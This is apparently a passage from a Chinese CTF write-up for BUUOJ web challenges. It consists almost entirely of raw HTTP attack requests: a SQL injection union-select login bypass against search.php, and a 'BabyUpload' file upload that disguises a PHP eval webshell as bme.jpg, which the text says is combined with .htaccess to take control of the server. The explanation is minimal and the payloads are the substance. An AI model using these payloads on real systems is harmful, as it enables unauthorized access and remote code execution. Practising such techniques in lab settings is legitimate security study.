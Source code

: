 ### payload

```http
POST /search.php HTTP/1.1
Host: d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://d4f0ae3a-3daf-4e5c-af1a-0c06a2b745ba.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

name=1' union select 1,'admin','698458dc93cf1f38bd6a9436c20a4e34'#&pw=bme
```

## BabyUpload

> *2021/07/16*

### 题目

这道题和[你传你M呢](#你传你M呢)是同一类型的题，都是上传`webshell.jpg`配合`.htaccess`来解析控制服务器

### payload

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 336
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg

<script language='php'>eval($_POST['bme']);</script>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```
